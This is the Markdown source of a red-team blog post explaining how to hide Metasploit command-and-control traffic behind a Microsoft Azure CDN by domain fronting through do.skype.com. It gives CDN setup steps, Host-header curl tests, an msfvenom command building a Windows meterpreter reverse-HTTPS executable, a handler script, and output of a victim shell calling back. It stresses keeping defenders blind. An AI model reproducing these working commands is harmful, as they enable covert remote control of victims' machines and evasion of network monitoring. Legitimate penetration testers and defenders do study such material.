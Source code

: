 ```yaml
---
title: "Metasploit Domain Fronting With Microsoft Azure"
date: 2018-04-17T00:24:27-05:00
---
```


Domain fronting has been one of the biggest "new-hotnesses" of the past few years and rightly so. It helps to mask your C2 traffic behind well-known domains and does a fairly good job at keeping defenders in the dark. We've seen plenty of resources setting up domain fronting for [Empire](https://www.xorrior.com/Empire-Domain-Fronting/) and [Cobalt Strike](https://blog.cobaltstrike.com/2017/02/06/high-reputation-redirectors-and-domain-fronting/), which have definitely helped to pave the way. Domain fronting support was [finally added](https://github.com/rapid7/metasploit-framework/pull/8948) into the Metasploit Framework in late 2017 and now we're starting to see [various](https://beyondbinary.io/articles/domain-fronting-with-metasploit-and-meterpreter/) [resources](https://bitrot.sh/post/30-11-2017-domain-fronting-with-meterpreter/) to help set that up for you. 

An observation that I've made is that it seems most people like to use AWS CloudFront as their CDN of choice for domain fronting, and I'll admit I fall guilty to that. Microsoft Azure also has domain fronting capabilities in their CDN infrastructure, so in this post we'll focus on setting up Metasploit domain fronting with Azure.

## Setting Up Azure

The setup for Azure is pretty straight forward and doesn't stray too far from CloudFront, just that you're using a different system. Once in Azure, you'll want to create a CDN resource and create an endpoint for that resource.

![CDN Setup Screenshot](/images/metasploit_azure_domain_fronting/1.png)

There's a few things that we need to take special attention to here:

* **CDN Endpoint Name**: This is what is going to be in your `Host` header in the HTTP request, and what will ultimately point to your C2 infrastructure. You'll want this to be something clever sounding, maybe something to deal with marketing or banking, however you decide to conceal yourself.
* **Origin Hostname**: This is your IP address or DNS name for you C2 infrastructure. This part will *not* be revealed to your end users / blue team. It's pretty much the final piece of glue to connect the CDN to your resources and get domain working.

Now that you've got your CDN and an endpoint created, it's time to wait. It can take the better part of an hour for the endpoint to propogate throughout the CDN. While we wait, we need to make sure we update the endpoint's caching settings. The reason we do this is because we don't want the CDN to act like a *real* CDN and cache our traffic, and instead just use the CDN as a communications channel.

![CDN Cache Screenshot](/images/metasploit_azure_domain_fronting/2.png)

Change your caching and query string caching behaviors to bypass and you'll be all set.

### Finding domain frontable Azure domains

Now that your CDN is setup and propogating, we need to find a high-profile domain name to hide behind that will also work for our CDN. [@a_profligate](https://twitter.com/a_profligate) has a blog post [Finding Domain frontable Azure domains](https://theobsidiantower.com/2017/07/24/d0a7cfceedc42bdf3a36f2926bd52863ef28befc.html) that does a pretty good job explaining how to find a domain to front with. I'm not going to bother re-inventing the wheel here, give that article a read. For the sake of this post, I'll use `do.skype.com` as my front domain.

### Test the CDN

Before we dive into Metasploit, we need to make sure our CDN communication is properly setup. I've got Nginx setup on my C2 server for testing purposes so it should respond the same way hitting it directly and hitting it through the CDN. When hitting it through the CDN with your newly chosen frontable Azure domain, you'll want to set the `Host` header to the FQDN you created before.


```
╭─chiggins at razer in ~
╰─○ curl "https://ohnoitsascarymaliciousdomain.fun"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>

╭─chiggins at razer in ~
╰─○ curl --header "Host: something-clever.azureedge.net" "https://do.skype.com"
<h1>Hello</h1>

<p>This is hosted from Nginx.</p>
```

## Setting Up Metasploit

First things first you'll want to generate your payload. Here's the payload getting generated on my C2 host.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfvenom -p windows/meterpreter/reverse_https LHOST=do.skype.com LPORT=443 HttpHostHeader=something-clever.azureedge.net -f exe -o /var/www/html/exploit.exe
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 463 bytes
Final size of exe file: 73802 bytes
Saved as: /var/www/html/exploit.exe
```

Two things to take special note of here:

* **LHOST**: This is going to be the frontable domain you discovered earlier.
* **HttpHostHeader**: This new option is what will set the `Host` entry in your HTTP request. This should be set to your CDN endpoint.

For the sake of simplicity I have a resource script setup so that when I start Metasploit, it'll start up my handler with all the right options.

```
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± cat ~/df_azure.rc
use multi/handler
set payload windows/meterpreter/reverse_https
set LHOST do.skype.com
set LPORT 443
set HttpHostHeader something-clever.azureedge.net
set ExitOnSession false
run -j
╭─root at ip-10-2-0-235 in ~/metasploit-framework
╰─± ./msfconsole -qr ~/df_azure.rc
[*] Processing /root/df_azure.rc for ERB directives.
resource (/root/df_azure.rc)> use multi/handler
resource (/root/df_azure.rc)> set payload windows/meterpreter/reverse_https
payload => windows/meterpreter_reverse_https
resource (/root/df_azure.rc)> set LHOST do.skype.com
LHOST => do.skype.com
resource (/root/df_azure.rc)> set LPORT 443
LPORT => 443
resource (/root/df_azure.rc)> set HttpHostHeader something-clever.azureedge.net
HttpHostHeader => something-clever.azureedge.net
resource (/root/df_azure.rc)> set ExitOnSession false
ExitOnSession => false
resource (/root/df_azure.rc)> run -j
[*] Exploit running as background job 0.

[-] Handler failed to bind to 72.21.81.200:443
msf5 exploit(multi/handler) > [*] Started HTTPS reverse handler on https://0.0.0.0:443

msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                            Payload opts
  --  ----                    -------                            ------------
  0   Exploit: multi/handler  windows/meterpreter/reverse_https  https://do.skype.com:443

msf5 exploit(multi/handler) >
```

You'll notice that there's an error binding to `72.21.81.200:443`. That's because that is the IP address of `do.skype.com`, which is fine, because the handler also binds on `0.0.0.0:443` which will work out perfectly for us.

Transfer your payload onto your victim workstation and run it and you should see great success and a meterpreter shell call back!

```
[*] https://do.skype.com:443 handling request from 152.195.6.101; (UUID: 3cxijbex) Staging x86 payload (180901 bytes) ...
[*] Meterpreter session 1 opened (10.2.0.235:443 -> 152.195.6.101:38626) at 2018-04-03 21:02:31 +0000

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-1RB861P
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

Because the payload utlizes both domain fromting via `do.skype.com` and HTTPS, the traffic in transit really looks like nothing out of the orginary.

![Wireshark capture of payload](/images/metasploit_azure_domain_fronting/3.png)

And there you have it -- successful domain fronting with Metasploit via Microsoft Azure! If you have any questions or comments, feel free to hit me up on Twitter [@ch1gg1ns](https://twitter.com/ch1gg1ns).
